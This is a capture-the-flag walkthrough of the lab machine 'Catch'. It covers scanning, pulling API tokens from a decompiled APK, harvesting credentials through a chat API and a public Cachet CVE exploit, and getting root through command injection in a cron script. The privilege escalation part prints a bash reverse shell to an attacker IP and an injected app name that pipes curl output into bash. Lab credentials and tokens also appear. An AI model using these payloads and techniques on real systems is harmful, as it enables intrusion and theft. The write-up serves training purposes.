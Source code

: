 # Catch

---

## Enumeration & Foothold

- nmap TCP scan:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Catch Global Systems
3000/tcp open  ppp?
5000/tcp open  upnp?
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Catch Global Systems
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 69A0E6A171C4ED8855408ED902951594
```

- Feroxbuster dirscan result:

```
feroxbuster -u http://catch.htb -B -x php -n   

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://catch.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🏦  Collect Backups       │ true
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      374l      602w     6163c http://catch.htb/
403      GET        9l       28w      274c http://catch.htb/.php
301      GET        9l       28w      311c http://catch.htb/javascript => http://catch.htb/javascript/
200      GET      374l      602w     6163c http://catch.htb/index.php
403      GET        9l       28w      274c http://catch.htb/server-status
[####################] - 1m     60025/60025   0s      found:5       errors:1      
[####################] - 1m     60000/60000   575/s   http://catch.htb/
```

- Downloaded the offered file on the main domain's "port 80" home page, `.apk` file and started analyzing it using `jadx-gui`
- Found a subdomain `status.catch.htb` on main file `MainActivity`, but it returns the same page, nothing too interesting here.

```java
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.activity_main);
        WebView webView = (WebView) findViewById(R.id.webview);
        this.mywebView = webView;
        webView.setWebViewClient(new WebViewClient());
        this.mywebView.loadUrl("https://status.catch.htb/");
        this.mywebView.getSettings().setJavaScriptEnabled(true);
    }
```

- Found "potentially" API tokens for different apps on the box

```html
    <string name="gitea_token">b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0</string>
	<string name="slack_token">xoxp-23984754863-2348975623103</string>
	<string name="lets_chat_token">NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==</string>
```

- A Gitea port info can be found in `/api/swagger`, but the token is invalid, tried all ways of using this token, but I have other tokens to try on other ports

```bash
curl http://10.10.11.150:3000/api/v1/user/repos -H "Authorization: token b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0" 
{"message":"token is required","url":"http://gitea.catch.htb:3000/api/swagger"}
```

- `Let's Chat` token worked. It's a Bearer auth token and now can hit API endpoints, they can be found [here](https://github.com/sdelements/lets-chat/wiki/API)

```bash
curl 10.10.11.150:5000/users -H "Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="     
[{"id":"61b86aead984e2451036eb16","firstName":"Administrator","lastName":"NA","username":"admin","displayName":"Admin","avatar":"e2b5310ec47bba317c5f1b5889e96f04","openRooms":["61b86b28d984e2451036eb17","61b86b3fd984e2451036eb18","61b8708efe190b466d476bfb"]},{"id":"61b86dbdfe190b466d476bf0","firstName":"John","lastName":"Smith","username":"john","displayName":"John","avatar":"f5504305b704452bba9c94e228f271c4","openRooms":["61b86b3fd984e2451036eb18","61b86b28d984e2451036eb17"]},{"id":"61b86e40fe190b466d476bf2","firstName":"Will","lastName":"Robinson","username":"will","displayName":"Will","avatar":"7c6143461e935a67981cc292e53c58fc","openRooms":["61b86b3fd984e2451036eb18","61b86b28d984e2451036eb17"]},{"id":"61b86f15fe190b466d476bf5","firstName":"Lucas","lastName":"NA","username":"lucas","displayName":"Lucas","avatar":"b36396794553376673623dc0f6dec9bb","openRooms":["61b86b28d984e2451036eb17","61b86b3fd984e2451036eb18"]}]
```

- `/account` reveals that my token is the administrator user
- Enumerated the messages in all rooms, and found creds: `john:E}V!mywu_69T4C}W`, did not work for SSH, worked for port 8000 status app
- This instance is vulnerable to [CVE-2021-39174](https://github.com/n0kovo/CVE-2021-39174-PoC) and leaked the following data:

```bash
python leak.py -n john -p 'E}V!mywu_69T4C}W' -u http://10.10.11.150:8000

[+] Getting CSRF token
[+] CSRF token: 23cRLPpsXE3wVs8DyqOgd4dYCZv4YH7M0RITClOT
[+] Logging in as user 'john'
[+] Successfully logged in
[+] Getting current field values
[+] Sending payload
[+] Extracted the following values:
- APP_KEY               = base64:9mUxJeOqzwJdByidmxhbJaa74xh3ObD79OI6oG1KgyA=
- DB_DRIVER             = mysql
- DB_HOST               = localhost
- DB_DATABASE           = cachet
- DB_USERNAME           = will
- DB_PASSWORD           = s2#4Fg0_%3!
[+] Unsetting payload variable
[+] Exiting
```

- The previously gathered greds of `will:s2#4Fg0_%3!` is will's creds on the box, logged in via SSH and got user.txt

---

## PrivEsc

- Running `pspy64`, revealed a process running by root probably periodically

```bash
2022/12/26 05:09:02 CMD: UID=0    PID=67990  | /bin/bash /opt/mdm/verify.sh
```

- Linpeas:

```bash
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxr-x--x+ 1 root root 1894 Mar  3  2022 /opt/mdm/verify.sh
```

- The code in `verify.sh` is vulnerable to command injection in `app_check` function. So we'll have to pass the previous `comp_check` and `sig_check`.

```sh
app_check() {
        APP_NAME=$(grep -oPm1 "(?<=<string name=\"app_name\">)[^<]+" "$1/res/values/strings.xml")
        echo $APP_NAME
        if [[ $APP_NAME == *"Catch"* ]]; then
                echo -n $APP_NAME|xargs -I {} sh -c 'mkdir {}'
                mv "$3/$APK_NAME" "$2/$APP_NAME/$4"
        else
                echo "[!] App doesn't belong to Catch Global"
                cleanup
                exit
        fi
}
```

- To exploit this, I used to previously downloaded APK file, decompiled it with `apktool`, then added the command injection in `<string name="Catch ....."></string>`
- First check is passed, `compileSdkVersion` is already 32, which is greater than 18

```bash
grep -oPm1 "(?<=compileSdkVersion=\")[^\"]+" "AndroidManifest.xml"            

32
```

- Prepared revshell paylaod:

```bash
cat game.sh            

#!/bin/bash
bash -i &> /dev/tcp/10.10.16.2/9001 0>&1
```

- In `/res/values/strings.xml`, I changed the app_name value to be:

```xml
<string name="app_name">Catch;$(curl http://10.10.16.2/game.sh | bash)</string>
```

- Built the apk file using `apktool` and dropped it in `apk_bin` folder, and got revshell as root!

```cmd
python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.150 - - [26/Dec/2022 02:17:12] "GET /game.sh HTTP/1.1" 200 -


nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.150] 38436
bash: cannot set terminal process group (115178): Inappropriate ioctl for device
bash: no job control in this shell
root@catch:~# 
```

---
